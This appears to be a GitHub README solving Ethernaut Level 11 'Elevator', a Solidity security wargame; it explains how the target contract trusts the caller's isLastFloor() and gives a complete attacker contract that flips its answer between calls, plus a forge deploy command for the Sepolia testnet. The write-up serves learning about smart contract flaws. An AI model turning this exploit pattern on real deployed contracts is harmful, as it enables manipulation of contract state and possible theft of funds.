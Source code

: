 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/11-elevator.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 11 - Elevator</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/11-elevator-requirements.webp" width="800px"/>

## The hack

The Elevator is a level that is supposed to elevate (!) our knowledge about smart contract interface. An interface defines function signatures, but not their logic. This is a way to interact with other contracts without having to know the implementation details.

However, in this case, we can create our Building instance and use it to define our version of the `isLastFloor()` function.

```javascript
function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (!building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

In the `goTo` function, `isLastFloor` is called twice. The first time with any value (this will set the last floor), and the second time with the floor we want to go to. We can use this to our advantage by crafting a `isLastFloor()` that will return `false` the first time and `true` the second time.

This will allow us to reach the top of the building.

## Solution

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract StairwayToHeaven {
    bool private toogle;
    IElevator private elevator;

    constructor(address _elevator) {
        elevator = IElevator(_elevator);
    }

    // Implement the isLastFloor function to return false the first time (set
    // the floor to any uint value) and true the second time to go to the top
    function isLastFloor(uint) public returns (bool) {
        toogle = !toogle;
        return toogle;
    }

    // Pick your number :)
    function attack(uint256 _floor) external {
        elevator.goTo(_floor);
    }
}
```

Then, you can use forge scripts to deploy the contract and call the `attack` function with the floor you want to go to.

```bash
forge script script/11_Elevator.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Interfaces are a way to interact with other contracts without having to know the implementation details...
- ... so never trust them blindly!

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
